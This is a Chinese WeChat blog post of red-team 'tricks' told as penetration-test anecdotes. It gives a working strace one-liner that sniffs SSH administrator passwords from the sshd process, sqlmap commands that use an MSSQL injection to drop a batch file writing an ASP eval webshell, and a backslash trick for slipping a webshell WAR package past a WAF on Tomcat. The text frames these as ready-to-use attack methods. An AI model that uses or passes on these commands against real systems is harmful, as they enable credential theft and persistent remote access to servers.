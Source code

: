 #  聊聊那些红队攻击中的"奇技淫巧"

原创 JC  [ JC的安全之路 ](javascript:void\(0\);)

**JC的安全之路** ![]()

微信号 csec527

功能介绍 一个安全从业者的想法见解 ，每周随缘更新1-2篇

____

___发表于_

收录于合集

#bypass 3 个

#红队相关 5 个

#安全小技巧 9 个

  

#

**前 言**  
  

 **你不必做一个无所不能的英雄人物**

  

 **01** **strace的妙用  
**

  

假设一个攻击场景：

  你的入口机器是一台Linux，并且发现所处C段大部分为Linux，此时也提权至root了，对于其他网段而言，你必须跨出你所在的C段才能跨到别的地址段去（
**这是一台业务服务器，站库分离，通过检索配置文件可以拿到数据库权限，但是Mysql，并未多少利用点** ）。

      你想起了可以尝试用 **MimiPenguin** 抓取密码？奈何密码没抓到。

   通过长期的 **蹲点** ，你发现业务管理员每周五下午会定时登录一次，有时早，有时晚（可能是人工巡检，也可能是脚本登录）？

     此时你想或许可以尝试监听管理员的密码？很快，你想起了 **strace命令** 可以监听一手密码

  *   * 

    
    
    (strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/sshd.log &)grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/sshd.log

很幸运，你在这周五管理员上线的时候，捕获到了密码：  

![]()  

接下来，你发现这个C段的IP全部是通用密码，很轻松突破了隔离网段。

  

  

 **0 2** **不出网的Mssql注入（中文目录写webshell）  
**

###  ****

  

  
  
  
某次演练： 【09:00:10】你运气不错，开局就是一枚mssql
堆叠注入！【09:00:40】你掏出你的珍藏sqlmap开始梭哈：![]()【09:02:10】你看到权限是dba，果断的尝试--os-
shell执行命令。【09:03:10】你运气很好，成功的执行出了命令，但是很快你笑不出来了，你发现虽然可以执行命令，但是TCP/UDP均不出网。【09:05:10】你心想：不出网又怎样，我写webshell总行吧，开梭，于是飞速敲下一条命令：![]()【09:05:40】你很快定位到了web目录，但是WEB目录是中文目录，你尝试写入，但是写入失败了。【09:06:20】你开始冥思苦想......一千年Later......【09:08:10】你开始百度，你发现可以通过sqlmap上传写好的bat脚本，把webshell写入web目录：  

> python sqlmap.py -r aaaaaaaa.txt --batch --file-write ahell.bat -file-dest
> c:\users\public\music\ashell.bat

![]()ashell.bat的内容

> echo ^<%%eval request("aaaaaa")%%^>
> >D:\\\张三的马赛克\\\Content\\\images\\\logo1.asp

【09:08:30】你再次执行os-
shell，此时你惊喜的发现bat已经落地，你执行了ashell.bat，返回为空，证明执行成功。![]()【09:08:31】你怀揣着激动的心情访问了webshell地址，惊喜的发现webshell写入成功！![]()

  

 **0 3** **Tomcat上传war包绕过WAF**

  

也是某次演练：

【09:00:10】你看着主办方发的目标，陷入沉思。【09:00:11】你盘算了一下，随机选中一名幸运目标，开始收集资产渗透。【09:00:12】很不走运，你发现这个目标几乎没有互联网映射，无奈放弃。【09:00:13】你看着主办方发的目标，再次陷入沉思.....【09:00:14】你飞快的盘算了一下，随机再次选中一名幸运目标，开始收集资产渗透。【09:00:24】很幸运，这次可以打的目标很多，但是全都被WAF套牢，你尝试绕过，但是没有成功...【09:02:14】你开始百度...“
**bypass WAF的1888种手段** ”..." **文件上传的一百零单八种姿势** "..." **看我如何调教xx WAF** "...  
【09:20:14】你眉头一皱，发觉事情并不简单...【09:20:18】你放弃了检索...【09:21:14】突然，你游离的目光突然发现一个冷门端口的tomcat页面，并且版本是是tomcat
7。【09:21:15】你飞快的尝试了99种密码组合。【09:22:23】 **很幸运！你登陆了tomcat 后台！**
【09:22:34】你迅速的制作了一个包含webshell的WAR包进行部署。【09:22:44】很遗憾，被WAF拦截了。【09:23:02】你想起师傅传授你的绕过方法（
**利用\\\\\拆分后缀，绕过waf** ），试探性的绕了一下：![]()  
【09:24:14】 **你发现waf没有告警，也没有拦截。**
【09:25:00】你访问你的webshell，发现连接成功了![]()【09:25:08】你看着眼前的success，却并没有露出高兴的神情，反而惘然若失...【09:30:14】只见你突然喃喃道：
**为什么当初不肯多学亿点...**

  

 **0 4** **后话  
**

  

以上纯属本人臆想与胡编乱造，请用手中的兵器试证明之。  

  

  

  

  

![]()

  

  

  

  
 **E ND**  
![]() **扫 码关注了解更多**安全小技巧  
  

  

  

  
  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

